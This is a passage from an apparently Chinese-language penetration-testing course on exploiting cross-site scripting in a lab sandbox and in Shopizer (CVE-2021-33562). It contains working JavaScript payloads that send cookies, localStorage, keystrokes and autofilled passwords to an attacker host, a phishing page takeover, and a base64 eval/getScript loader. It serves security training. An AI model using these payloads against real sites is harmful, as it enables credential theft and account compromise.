太棒了！我们成功利用了客户端 XSS 漏洞！利用 XSS 漏洞的方法有很多，图片的*onerror*属性只是其中一种 。我们还可以使用*onfocus*、*onclick*、*onload*等属性。

### 存储型客户端 XSS

与反射型客户端 XSS 不同，存储型客户端 XSS 不需要攻击者向受害者发送精心构造的 URL。相反，任何
访问存在漏洞页面的用户都会自动受到攻击。我们将再次使用 XSS 沙箱中的调查应用程序和 Firefox 浏览器进行测试。让我们按照预期的方式使用该应用程序，并以默认用户 Jason 的身份提交调查问卷。



我们将输入用户的年龄、城市以及剩余的问题。最后，我们会进入一个页面，显示我们答案的摘要。



在此页面上，我们发现添加了一个新的查询参数*result*。刷新页面后，可以看到用户的调查结果。如果移除*result*查询参数并再次访问该页面，则会返回到用户的调查结果页面。看来该应用程序只允许每个用户名提交一次调查。如果调查已提交，则会显示答案。

我们来更改名称并提交调查问卷。不过，这次我们将使用 HTML 代码回答其中一个问题。我们将使用“Damir”作为名称，并将有效载荷设置到“where are you from？”这个问题上。我们将使用 H1 标签将萨拉热窝这座城市括起来。



我们会回答剩下的问题，当结果显示出来时，我们会发现 HTML 标签已经渲染成功！



如果我们使用网络工具查看 survey.js 的源代码，我们会发现这个结果表是通过客户端 JavaScript 添加的，而不是通过服务器添加的。

然而，与反射型 XSS 不同，这次的数据是通过
*追加方式*添加的。让我们再次尝试使用标准的alert负载，并查看
输出结果。同样，我们将使用不同的名称，并将有效载荷设置为相同的
问题。



当我们回答完剩余的问题后，结果页面上会弹出一个提示框！




如果我们点击警告框并重新加载页面，警告框会再次显示。让我们在受害者的浏览器中渲染页面，以
确认有效载荷有效。由于这是一个存储型 XSS 攻击，因此 URL 不需要任何特殊有效载荷。



太棒了！我们现在已经利用了受害者浏览器中的存储型客户端 XSS 漏洞。


## 4、跨站脚本 XSS 漏洞利用与案例实战

在本主题中，我们将涵盖以下学习单元：

- 跨站脚本攻击 - 漏洞利用
- 案例研究：Shopizer 反射型 XSS 

每个学习者的进度各不相同，但完成本主题大约需要 7 小时。

## 4.1 跨站脚本 — 漏洞利用

本学习单元涵盖以下学习目标：

- 从外部资源加载 XSS payload
- 外带浏览器本地存储 (local storage) 中加载的机密信息
- 记录受害者的击键 (keystrokes)
- 从密码管理器中外带保存的密码
- 以一种逼真的方式对用户进行网络钓鱼 (phish)

完成本学习单元大约需要 6 小时。

历史上，攻击者曾利用跨站脚本漏洞窃取经过身份验证的用户的会话 cookie (session cookies)。然而，随着缓解措施的增加（最显著的是会话 cookie 上的 `HttpOnly` 属性），这类攻击受到了限制。由于这种限制只阻止了一种漏洞利用载体 (vector)，我们还有许多其他载体可以选择进行漏洞利用。

例如，由于浏览器会自动对来自用户的请求进行身份验证，我们可以利用这一特性来**劫持用户的会话（或：利用用户已登录的会话）**并代表他们执行操作，例如更改他们的密码或下载敏感信息。然而，这通常需要白盒 (whitebox) 方法、现有的用户帐户或对应用程序的深入了解。因此，我们不会将重点放在特定的基于应用程序的漏洞利用上，相反，我们将使用 XSS 来窃取会话令牌 (session tokens)（并演示带有 HttpOnly 属性的会话令牌是如何无法被访问的）以及从本地存储中提取数据。

我们还可以通过记录击键、从密码管理器中提取保存的密码或对用户进行网络钓鱼来攻击用户。这些类型的攻击独立于应用程序，并且几乎适用于所有应用程序，只要有值得利用的东西即可。

现在，我们可以启动下面列出的 XSS Sandbox 机器，并在开始工作之前在我们的 Kali 机器上进行相应的 IP 地址更新。我们将在本学习单元中使用此虚拟机。

接下来我们要讲的攻击手法，远比单纯弹个警告框要复杂得多，因此我们需要构建能执行复杂逻辑的 Payload。 虽然你确实可以把一长串恶意代码硬挤成一行直接注入进去，但实战中更好的做法是：**注入一个简短的 `<script>` 标签，让受害者的浏览器主动去我们的 Kali 服务器上远程加载完整的 JS 脚本。** 采用这种外部加载的方式，我们就可以随心所欲地编写极其复杂的 JavaScript 代码，彻底免去了为了绕过过滤而进行各种繁琐的字符转义或编码（Encoding）的烦恼。

让我们通过漏洞利用 XSS 沙盒中的 Search应用程序来演示这一点。目前，我们仍将坚持使用 alert 漏洞利用，但这将在接下来的部分中更新。

我们将不使用内联 (inline) JavaScript，而是添加一个 `script` 标签，并将其 `src` 属性设置为托管在我们 Kali 机器上的文件。这将使 payload 变为 `<script src="http://<KALI_IP>/xss.js"></script>`。我们还需要在我们的 Kali 机器上创建一个名为 `xss.js` 的文件并托管它。

我们将使用 Python 内置的 HTTP 服务器来托管该文件。我们将在名为 `xss` 的目录（可在我们的主目录中找到）中提供所有内容。`xss.js` 文件将仅包含一条 "alert" 指令。最后，我们将使用 `python3 -m http.server 80` 启动 HTTP 服务器。

```bash
kali@kali:~$ mkdir xss

kali@kali:~$ cd xss

kali@kali:~/xss$ echo "alert(1)" > xss.js

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

服务器启动后，让我们利用有效载荷来攻击该应用程序。



有效载荷会在 HTML 文档中添加一个 script 标签，该script 标签会从我们的 Kali 机器加载 xss.js 文件。
让我们提交搜索并利用 XSS 漏洞。



页面加载时，XSS 有效载荷会被下载并利用。我们点击*“渲染”按钮*，让受害者的浏览器也加载这个页面。



再次出现提示框。让我们查看一下HTTP服务器日志。

```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [19/Aug/2021 17:32:53] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 17:45:42] "GET /xss.js HTTP/1.1" 200 -

```

我们在 HTTP 服务器日志中发现了两条记录。第一条来自我们自己加载页面时的 Kali IP。第二条来自受害者的浏览器。

在接下来的漏洞利用中，我们将继续使用 `script` 元素 payload 和搜索应用程序。然而，这种基于 `<script>` 标签的 Payload 并非在所有场景下都适用。对于某些不会自动解析并执行 JavaScript 的 XSS 注入点（例如，由 `innerHTML` 引发的客户端 XSS 漏洞），该 Payload 将无法生效。幸运的是，我们还有其他的技术手段可以绕过这一限制。

跨站脚本攻击由来已久的目标始终是外带用户的会话 cookie。一旦获取，我们就可以使用该会话 cookie 以受害者的身份在应用程序中进行身份验证，但 `HttpOnly` 属性的广泛使用使得这种漏洞利用变得不再那么普遍。然而，我们仍然有必要了解该漏洞利用的工作原理，以及当设置了 `HttpOnly` 属性时应用程序的响应方式。

使用 JavaScript，我们可以使用 `document.cookie` 属性访问页面的 cookie。我们将提取此值，对其进行 URL 编码 (URL encode)，并使用 `fetch` 将其发送回我们的 Kali 虚拟机。所有这些操作都将在 `xss.js` 文件中完成。

```bash
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.49.51/exfil?data=" + encodedCookie)

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

如上代码所示，我们编辑了xss.js 文件，提取并编码 cookie，然后向 Kali 虚拟机发送包含编码值的 GET 请求。接下来，我们将把脚本有效负载粘贴到搜索应用程序中并提交。



我们再次“利用”自身漏洞，但由于我们没有设置 cookie，因此HTTP 服务器中的日志将为空。 

```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [19/Aug/2021 19:07:14] "GET /xss.js HTTP/1.1" 200 -
192.168.49.51 - - [19/Aug/2021 19:07:14] code 404, message File not found
192.168.49.51 - - [19/Aug/2021 19:07:14] "GET /exfil?data= HTTP/1.1" 404 -

```

接下来，我们让受害者运行这个页面。这次，我们将勾选标题为“使用非HttpOnly Cookie”的复选框，然后单击*“渲染”*。

页面加载正常，但如果我们检查 HTTP 日志，会发现cookie 值被泄露了！

```bash
192.168.121.101 - - [19/Aug/2021 19:25:11] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 19:25:12] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 19:25:12] "GET /exfil?data=session%3DSomeExampleCookie HTTP/1.1" 404 -

```

太好了！不过，我们取消勾选“使用非HttpOnly Cookie”，改为勾选“使用HttpOnly Cookie”。点击*“渲染”*后，页面再次正常加载，但查看日志后，却找不到任何cookie。

```bash
192.168.121.101 - - [19/Aug/2021 19:27:36] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 19:27:36] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 19:27:36] "GET /exfil?data= HTTP/1.1" 404 -

```

当 cookie 设置了 HttpOnly 标志时，JavaScript 无法访问它，因此我们无法提取其值。

Web应用程序能够将数据存储在用户的浏览器中，这项功能通常用于存储大量数据。例如，一个允许用户编辑文档的应用程序可能会在将文档发送到服务器保存之前，先将其作为缓存存储在浏览器本地。这样即使用户关闭标签页，数据也不会丢失。然而，本地存储也可能包含API密钥或用户个人信息等敏感信息。

我们可以使用两种类型的存储：
1. *sessionStorage* [[53\]](#fn-53-75cda2e6654bb95e)
2. *localStorage* [[47-1\]](#fn-47-75cda2e6654bb95e)。

两者唯一的区别在于持久性级别。localStorage 会一直保留数据，直到被显式删除，而 sessionStorage 则会一直保留数据，直到标签页关闭。可以使用*window.localStorage*属性访问 localStorage 数据，而可以 使用*window.sessionStorage*访问 sessionStorage数据。

要从 localStorage 中提取数据，我们将把对象转换为字符串，对字符串进行 URL 编码，然后使用*fetch*将数据发送回给我们。

```bash
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
let data = JSON.stringify(localStorage)

let encodedData = encodeURIComponent(data)

fetch("http://192.168.49.51/exfil?data=" + encodedData)

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

我们将使用 XSS 沙箱中的搜索应用程序加载xss.js 并执行我们的有效载荷。当有效载荷在我们的浏览器中加载时，我们将收到一个包含用于运行 XSS 沙箱的密钥的日志。然而，我们这里的目标是我们自己的浏览器。因此，让我们选中“本地存储中的数据”复选框，并在受害者的浏览器中渲染页面。



如果我们检查 HTTP 日志，应该能找到一条记录受害者本地存储内容的条目。

```bash
192.168.121.101 - - [19/Aug/2021 20:09:25] "GET /xss.js HTTP/1.1" 200 -
192.168.121.101 - - [19/Aug/2021 20:09:25] code 404, message File not found
192.168.121.101 - - [19/Aug/2021 20:09:25] "GET /exfil?data=%7B%22token%22%3A%22example-token%22%7D HTTP/1.1" 404 -

```

太棒了！虽然本例中我们只展示了 localStorage，但使用相同的技术也可以提取 sessionStorage 中的数据。

有时候，攻击应用程序可能并非最佳策略。如果网站用户才是更大的目标，那么攻击用户本身或许更为有效。键盘记录是针对用户的最佳跨站脚本攻击方法之一，因为它极难被用户察觉，却能非常有效地窃取机密信息。

虽然利用 XSS 进行键盘记录存在局限性，但我们可以通过创建事件监听器来记录任何按键操作，不过该监听器只能设置在当前文档中。这意味着如果用户切换到其他标签页或使用其他应用程序，我们将无法拦截他们的按键。但是，如果用户正在输入私信或尝试登录目标网站，我们就可以捕获这些事件。

JavaScript 中用于表示按键事件的事件是*keydown*，它将被传递给*addEventListener*函数。该函数还接受一个回调函数，用于处理每个 keydown 事件。在这个回调函数中，我们会将按下的键发送回服务器。

```bash
kali@kali:~/xss$nano xss.js

kali@kali:~/xss$cat xss.js
function logKey(event){
        fetch("http://192.168.49.51/k?key=" + event.key)
}

document.addEventListener('keydown', logKey);

kali@kali:~/xss$python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

文件保存后，我们将勾选“模拟按键”并点击*“渲染”*。当页面在受害者的浏览器中渲染时，我们将开始把他们输入的消息记录到我们的HTTP日志中。

```bash
172.16.174.1 - - [20/Aug/2021 16:33:54] "GET /xss.js HTTP/1.1" 200 -
172.16.174.1 - - [20/Aug/2021 16:33:54] code 404, message File not found
172.16.174.1 - - [20/Aug/2021 16:33:54] "GET /k?key=D HTTP/1.1" 404 -
...
172.16.174.1 - - [20/Aug/2021 16:33:59] "GET /k?key=i HTTP/1.1" 404 -

```

与其使用 Python 的 HTTP 服务器来查看原始日志，不如创建一个应用程序来捕获请求，将其存储在数据库中，并具有一个漂亮的 UI 来显示所有泄露的数据。

作为安全专家，我们通常建议用户使用密码管理器来存储密码。然而，有些密码管理器会在登录提示出现时自动填充信息，方便用户登录。我们可以利用这一点窃取用户存储在密码管理器中的凭据。在大多数情况下，这种窃取几乎可以瞬间完成，而且不易察觉。

并非所有密码管理器都会自动填充登录提示，但许多浏览器内置的密码管理器（例如Chrome 浏览器中的密码管理器）都会这样做。通常，它们会查找用户名（或电子邮件）输入框以及*type*属性设置为“password”
的输入框的组合 。

作为攻击者，我们可以创建一个类似的表单供浏览器 自动填充，从而窃取凭据并将 其泄露出去。虽然我们可以将 HTML 输入标签添加到脚本有效负载中，但为了保持代码的条理性，我们将所有内容都放在 xss.js 文件中。在这个文件中，我们需要创建用户名和密码输入框。输入框添加到页面后，密码管理器会自动填充已保存的凭据。一段时间后，我们会将输入框的值发送回 Kali 机器。

```bash
kali@kali:~/xss$ nano xss.js

kali@kali:~/xss$ cat xss.js
  1  let body = document.getElementsByTagName("body")[0]
  2
  3  var u = document.createElement("input");
  4  u.type = "text";
  5  u.style.position = "fixed";
  6  //u.style.opacity = "0";
  7
  8  var p = document.createElement("input");
  9  p.type = "password";
 10  p.style.position = "fixed";
 11  //p.style.opacity = "0";
 12
 13  body.append(u)
 14  body.append(p)
 15
 16  setTimeout(function(){ 
 17          fetch("http://192.168.49.51/k?u=" + u.value + "&p=" + p.value)
 18   }, 5000);
 19

kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


```

我们首先在第 1 行获取文档的 `body` 元素并将其存入 `body` 变量中。
在第 3 和第 8 行，我们创建了两个元素：`u` 代表用户名输入框，`p` 代表密码输入框。
用户名输入元素的 `type` 属性会被设置为 `text`（第 4 行），密码输入元素的 `type` 属性会被设置为 `password`（第 9 行）。
正如第 5 和第 10 行所示，这两个输入字段会采用固定定位（`fixed` position，目的是确保它们不会破坏应用程序原有的页面布局）。
最后，我们会将这两个输入字段的透明度（`opacity`，第 6 和第 11 行）设置为 0，从而将它们在视觉上彻底隐藏。

不过，为了方便调试，我们现在先将隐藏透明度的代码注释掉。这样一来，我们就能在受害者的浏览器中直观地看到这些被注入的输入框，并在它们被创建并挂载（append）到页面 `body` 之后观察其状态。此时，浏览器的密码管理器应该会自动将保存的凭证填充进这两个框里。

为了验证数据是否成功被窃取，我们在第 16-18 行设置了一个 5 秒的延时（timeout）。5 秒时间一到，脚本就会发起一个包含提取到的用户名和密码值的 GET 请求进行数据外带。

保存好这个脚本文件并确保后端的 HTTP 服务器正在运行后，我们就可以回到 XSS 沙盒中，勾选“使用存储的密码 (Used stored password)”复选框，并触发渲染来执行这个漏洞利用了。



如上图所示，凭据会自动填充到左上角。等待五秒钟后，我们应该也能在 HTTP 日志中找到发送给我们的凭据。

```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.49.51 - - [20/Aug/2021 19:26:56] "GET /xss.js HTTP/1.1" 200 -
192.168.49.51 - - [20/Aug/2021 19:27:01] code 404, message File not found
192.168.49.51 - - [20/Aug/2021 19:27:01] "GET /k?u=Ryuggy&p=ShavedHeadsFTW HTTP/1.1" 404 -

```

太好了！如果我们取消对透明度的注释，会发现仍然可以获取凭据，但用户无法看到页面上的输入框。

这里还可以进行一些改进。例如，我们可以不在 输入框中立即获取值，而是添加一个*更改*事件监听器，这样只有在值发生变化时才发送数据。 即使密码管理器存在延迟，我们也能捕获凭据 。但是，在这种情况下，这样做没有必要。

鉴于我们拥有对 HTML 文档的完全访问权限，我们可以重写整个页面，随意设置样式并添加任何所需的 HTML 元素。这意味着我们可以强制任何页面看起来像登录页面，但当用户提交凭据时，提交的内容会发送给我们，而不是发送到预期的服务器。凭据重定向是通过将表单提交的位置替换为我们 Kali 的 IP 地址来实现的。

为了使页面尽可能逼真，理想情况下，我们会使用一个现有的登录页面，复制它，然后更改 表单的*action*属性。XSS 沙箱中的搜索应用程序有一个 位于 /login 的登录页面。



虽然我们可以手动扒下这个页面的 HTML 源码，并构造一个 XSS Payload 来直接覆盖/替换原有的页面内容，但更聪明的做法是利用 JavaScript 动态地帮我们抓取这些 HTML。这样一来，我们就能避免把大段臃肿的 HTML 代码硬塞进 JavaScript Payload 中（保持代码的精简）。

如果我们打开 Firefox 的开发者工具来审查（Inspect）这个表单，就会发现当前表单会将数据 POST 提交到 `index.php`（位于 `login` 路径下）。

在我们的脚本中，我们需要将 action 属性更改为我们的 KaliIP 地址。我们还需要将 method 更改为“get”。这将指示受害者的浏览器自动将有效载荷添加到 URL 查询中，而不是添加到请求体中，这样我们就更容易在 HTTP 服务器日志中找到它。

```javascript
fetch("login").then(res => res.text().then(data => {
	document.getElementsByTagName("html")[0].innerHTML = data
	document.getElementsByTagName("form")[0].action = "http://192.168.49.51"
	document.getElementsByTagName("form")[0].method = "get"
}))

```

首先，我们将使用 `fetch` 去请求登录页面。`fetch` 会返回一个 JavaScript `Promise` 对象，我们可以通过调用 `.then()` 方法来处理这个响应。

通过传入一个箭头函数 (arrow function)，我们可以调用响应对象中的 `text()` 方法。这个 `text()` 方法允许我们读取输入流（在这个场景下，也就是登录页面的 HTML 源码）。值得注意的是，`text()` 方法返回的同样也是一个 Promise。

我们需要再链式调用一次 `.then()` 并传入另一个箭头函数，把最终提取到的 HTML 源码保存到一个名为 `data` 的变量中。简单总结一下这个过程：我们向 `/login` 发起了一个 HTTP GET 请求，从响应体中提取了纯文本代码，并将其存储到了变量 `data` 里。

拿到源码后，我们就可以把当前正在执行 XSS Payload 的页面的整个 HTML 结构，替换成登录页面的内容。具体做法是：
选中 `<html>` 根元素，然后将其 `innerHTML` 属性直接覆盖为我们刚刚抓取到的登录页 HTML。最后，我们在页面上选取这个新“注入”进来的表单（form），并将其原有的 `action`（提交地址）和 `method`（提交请求方式）属性替换成我们的恶意接收地址。

我们将这些代码保存到 `xss.js` 中，并确保 HTTP 服务器正在运行。接下来，我们回到 Search（搜索）应用程序的 Web 根路径下，并输入我们的 `<script>` Payload 来触发注入漏洞。

最后，我们要在受害者的浏览器中渲染这个漏洞利用页面。在点击“渲染 (Render)”之前，我们要先勾选“盲目输入凭证 (Blindly enter credentials)”设置。这将模拟一个缺乏安全意识、一看到登录框提示就会乖乖输入账号密码的用户。



用户输入密码并提交表单。如果我们查看HTTP日志，就能找到受害者的用户名和密码。

```bash
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.16.174.1 - - [26/Aug/2021 17:53:12] "GET /xss.js HTTP/1.1" 200 -
172.16.174.1 - - [26/Aug/2021 17:53:21] "GET /?username=gullible&password=IMaybeGullibleButMyPasswordsAreStrong HTTP/1.1" 200 -

```

太棒了！我们成功提取了用户的凭据！

## 4.2 案例实战：Shopizer 反射型 XSS

本学习单元涵盖以下学习目标：

1. 发现 Shopizer 中的 XSS 漏洞
2. 创建高级有效负载以加载外部 JavaScript 资源
3. 发现特定应用程序的攻击向量
4. 利用针对特定应用程序的攻击来攻击 Shopizer 用户

完成本学习单元大约需要2个小时。

*让我们分析一下在Shopizer* [ [55\]](#fn-55-75cda2e6654bb95e)中发现的反射型服务器端跨站脚本漏洞。Shopizer 是一个用 Java 编写的开源电子商务平台 。我们将要分析的漏洞 编号为 CVE-2021-33562。

XSS漏洞存在于应用程序未经身份验证的部分。但是，我们最终的目标是需要经过身份验证的用户才能访问的功能。我们将创建一个自己的帐户来测试应用程序，并扮演受害者的角色。

| 用户名                                          | 密码     | URL                         |
| :---------------------------------------------- | :------- | :-------------------------- |
| N/A                                             | N/A      | http://shopizer:8080/shop/  |
| [admin@shopizer.com](mailto:admin@shopizer.com) | password | http://shopizer:8080/admin/ |

我们将尝试自行发现漏洞，然后编写一个可以攻击该应用程序其他用户的有效载荷。在继续之前，请启动 Burp Suite，如果启用了拦截功能，请将其关闭，然后点击代理选项卡中的*“打开浏览*器”按钮打开嵌入式浏览器。我们先来创建一个账户。我们将浏览到商店页面，网址为 http://shopizer:8080/shop。

Shopizer 需要几分钟时间启动并填充数据库。启动后，此版本可能无法在某些请求中正确加载 CSS。这通常不会影响网站功能或漏洞利用；但是，如果确实发生这种情况，刷新页面通常可以解决问题。我们可以通过点击*“我的账户”* >*“注册”*来开始注册流程。



我们将填写表格并点击*“创建账户”*。这将引导我们进入控制面板。


现在我们已经创建了帐户，我们可以点击*“首页”*开始搜索跨站脚本漏洞。

在继续下一节之前，请按照上述步骤创建帐户。

让我们从首页开始探索这个应用程序。我们点击*“产品”* > *“手提包”*。页面加载后，我们会注意到网址的一些有趣之处。

“ref=c:2”这部分看起来很奇怪。它有点像查询字符串参数[[58\]](#fn-58-75cda2e6654bb95e) ，但是没有问号来指示查询字符串的开头。

我们来判断“ref”值是否被视为参数。我们将通过右键单击并选择*“查看页面源代码*”来检查浏览器中的HTML页面源代码。新标签页打开后，我们按下C+f打开浏览器的查找工具，然后输入c:2。



通过分析结果，我们发现它在多个链接URL 中使用。更重要的是，从第 721 行开始的一个内联 JavaScript 函数使用了该值。

```javascript
721  function loadCategoryProducts() {
722    var url = '/services/public/products/page/' + START_COUNT_PRODUCTS + '/' + MAX_PRODUCTS + '/DEFAULT/en/handbags';
723  	 	
724    if(filter!=null) {
725      url = url + '/filter=' + filter + '/filter-value=' + filterValue +'';
726    }
727  
728  
729    url = url + '?ref=c:2';
730  
731  
732    loadProducts(url,'#productsContainer');
733  
734  }

```

第 729 行包含了完整的 “ref=c:2” 值。如果我们在 URL 中修改这个值，而应用程序又将该值直接输出（渲染）到了 JavaScript 代码中，我们或许就能够借此注入自定义的 JavaScript 代码。

让我们尝试使用一个探测字符串（canary），并检查应用程序是否会将其写入到 JavaScript 函数中。这里使用任何值都可以，但我们通常会选择一个不太可能在应用程序中自然出现的值，这样在搜索时需要排查的干扰项就会少很多。在这个例子中，我们直接将字符串 “canary” 拼接在 “c:2” 之后，使最终的 URL 以 “ref=c:2canary” 结尾。

> **提示：** “金丝雀 (canary)” 可以是任意值。选择一个应用程序原本不会使用的特殊字符或单词，能让我们在源码搜索时更精准、更轻松地定位该值被回显的位置。

让我们加载这个修改后的页面，然后审查页面源码。有趣的是，当我们搜索 “canary” 时，一共只找到了三个匹配项。其中一个结果刚好就位于从第 721 行开始的 `loadCategoryProducts()` 函数内。


看来我们已经能够将内容注入到 JavaScript 代码中，尽管目前它仅仅是被当作一个字符串值来处理的。我们的下一步是尝试注入一个单引号，以此从字符串的上下文中“逃逸 (escape)”出来，并测试我们是否能将指令直接注入到代码的执行逻辑中。让我们在 “canary” 前加上一个单引号，刷新页面，并查看页面源码。



应用程序确实将我们的 canary 写入了 JavaScript 代码中，但这破坏了页面的正常执行。我们的 Payload 在这行 JavaScript 代码中留下了一个多余的（未闭合的）单引号。此外，仅仅一个 “canary” 单词并不符合 JavaScript 的语法规范。如果我们在浏览器中打开 JavaScript 控制台（通常使用快捷键 `Ctrl+Shift+K` 或 `F12`），将会看到以下报错：

```txt
Uncaught SyntaxError: Unexpected identifier       ref=c:2'canary:729 

```

接下来，我们需要更新 Payload，确保在单引号“逃逸”之后能够拼接合法的 JavaScript 代码。我们将尝试弹出一个警告框 (alert window)。首先，我们需要闭合原有的字符串，并紧跟一个分号来结束当前语句。然后，我们可以插入我们的攻击载荷 `alert(1);'`。这样组合下来，最终的 Payload 为 `c:2';alert(1);'canary`。让我们提交这个值，如果利用成功，页面加载完毕后应该会弹出一个警告框。


很遗憾，这样做行不通。有些应用服务器和防火墙会屏蔽 URL 中的分号。由于无法访问应用或服务器的日志文件，我们无法确定问题出在哪里。我们需要找到另一种方法，确保我们的有效负载能够生成
有效的 JavaScript 代码。不妨试试用加号代替分号。


太棒了！虽然弹出警告框看起来没什么特别的，但我们已经确认
可以注入任意 JavaScript 代码，并且应用程序会将
其返回到我们的浏览器。在下一节中，我们将编写一个有效载荷
，从我们的 Kali 机器加载一个外部脚本。这将使我们能够
传递更复杂的有效载荷，从而利用此漏洞并
攻击应用程序的其他用户。

在继续下一节之前，请按照上述步骤重新创建警报窗口有效负载。

在上一节中，我们利用反射型跨站脚本漏洞，通过在 URL 中使用内联有效载荷显示警告框来攻击目标。虽然这种方法对当时的有效载荷有效，但如果我们想要执行更复杂的操作，有效载荷的大小也会随之增加。

我们来尝试利用 XSS 漏洞注入一个指向外部 JavaScript 文件的链接。这种外部文件的大小 限制与 URL 中传递的有效载荷不同。

我们有几种方法可以尝试注入脚本。我们可以“关闭”现有的脚本块，然后尝试注入一个新的*脚本*标签。由于在这个应用程序中，我们是通过 URL 注入 JavaScript 有效载荷，因此如果 尝试包含脚本标签，可能会遇到字符限制的问题。

幸运的是，还有其他方法可以将额外的 JavaScript文件加载到应用程序中。让我们检查一下 Shopizer 应用程序，确定它使用了哪些 JavaScript 库。如果该应用程序加载了 JavaScript 库，我们或许可以使用一些现有函数来减小有效负载。我们可以使用Burp Suite 中的*站点地图*[[59\]](#fn-59-75cda2e6654bb95e)工具来查找此信息。

让我们点击*“目标”* > *“站点地图”*来访问站点地图工具。


*我们可以通过点击http://shopizer:8080* > *resources* > *js*来找到 Shopizer 使用的 JavaScript 文件。



Shopizer 应用加载了多个 jQuery 文件。jQuery
库[[60\]](#fn-60-75cda2e6654bb95e)通过辅助函数简化了 JavaScript 中的 DOM 操作。我们感兴趣的辅助函数之一是jQuery.getScript *()* [[61\]](#fn-61-75cda2e6654bb95e)函数，它用于加载和执行远程 JavaScript 文件。

虽然我们可以用“原生”JavaScript 来实现这一点，但使用 jQuery 可以节省相当多的空间并简化有效载荷。

提醒一下，我们之前的有效载荷是在 URL 的“ref”值中注入 JavaScript 代码。我们将创建一个新的有效载荷，使用*jQuery.getScript()*函数从我们的 Kali 机器加载 JavaScript 文件。

首先，我们来创建要托管的 JavaScript 文件。我们将在 ~/xss 目录下创建此文件。我们还会启动 Python 的 HTTP 服务器，在 80 端口上提供该文件的服务。

```bash
kali@kali:~$ mkdir ~/xss/  

kali@kali:~$ nano ~/xss/xss.js  
  
kali@kali:~$ cat ~/xss/xss.js
alert('It worked!');

kali@kali:~$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

接下来，我们来构造用于加载该（恶意）文件的 XSS Payload。我们需要向 `jQuery.getScript()` 函数传入一个目标 URL。前面的测试已经表明，直接使用分号会破坏 Payload 的结构，因此，理想的做法是尽可能少地使用特殊字符。

我们需要对整个 Payload 进行编码，确保应用服务器在处理 URL 时，不会将这些代码当作特殊指令或语法进行解析（将其视为无意义的字符）。理想的编码方案应该只生成安全的字母和数字组合，避免产生会破坏 URL 结构的字符（例如正斜杠 `/`）。综合这些因素，我们将对 Payload 的核心部分进行 Base64 编码 ，并利用 JavaScript 自带的 `atob()` 函数在前端对其进行解码还原。

我们可以使用 Burp Suite 中的 Decoder（解码器）模块对我们的 `fetch()` 调用代码进行 Base64 编码。切换到 **Decoder** 选项卡，将我们的 Payload 粘贴到文本框中。随后，依次点击 **Encode as ... > Base64** 即可完成编码操作。


现在我们已经对有效载荷进行了 Base64 编码，接下来需要用两个函数调用来包装它。首先，我们将其传递给*`atob()` 函数*来解码值。这将返回一个包含有效载荷的字符串。然后，我们将该字符串传递给
*`eval()` 函数*[[64\]](#fn-64-75cda2e6654bb95e)来执行该字符串，就像执行 JavaScript 代码一样。

正如我们在显示警报时发现的那样，我们还需要用加号和引号将有效载荷括起来。包含单引号和加号的最终有效载荷如下所示。

```txt
'+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk='))+'

```

让我们将此有效载荷提交给应用程序。我们很可能会收到错误。如果错误不是显示的第一条消息，那么它可能是在我们关闭警报后显示的第二条消息。



这个错误信息会导致问题。有时我们的有效载荷会先执行，但有时错误信息会先显示。当弹出警告框时，执行会被暂停，我们的有效载荷可能要等到用户关闭它后才会执行。让我们查看 JavaScript 控制台，找出问题所在。



JavaScript 控制台显示页面尝试发送请求但收到 400 错误。我们点击链接。这将跳转到“网络”选项卡，点击该请求，即可查看服务器的响应。

此时，服务器会抛出一个报错，提示我们“请求目标中包含无效字符 (Invalid character found in the request target)”。这很可能是由于 `getScript()` 函数返回的数据内容引发的（通常是因为其中包含了无法直接拼接到 HTTP URL 中进行传输的特殊符号）。为了解决这个问题，我们可以利用 `btoa()` 函数对完整的响应内容进行 Base64 编码。在具体操作上，我们需要将整个 `eval()` 执行语句包裹在 `btoa()` 函数内部。

```
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDkuNTEveHNzLmpzJyk=')))+'

```

当我们发送此有效载荷时，页面加载正常，没有出现任何错误！

太好了！看来我们的外部 JavaScript 文件已经加载成功。点击
“*确定”*关闭对话框吧。

虽然这个概念验证只用了一个简单的脚本，但关键在于我们注入了一个外部 JavaScript 文件。既然我们已经完成了这一点，接下来让我们来处理一个更复杂的有效载荷。

在继续下一节之前，请按照上述步骤，利用XSS 漏洞加载外部 JavaScript 文件。

让我们评估一下我们对该应用程序的了解，以及我们可能用跨站脚本攻击（XSS）做些什么。该应用程序使用JSESSIONID cookie 来跟踪用户会话，但该 cookie设置了*HttpOnly*属性。由于浏览器会阻止 JavaScript访问 JSESSIONID cookie，因此我们无法使用 XSS 窃取其他用户的 cookie。

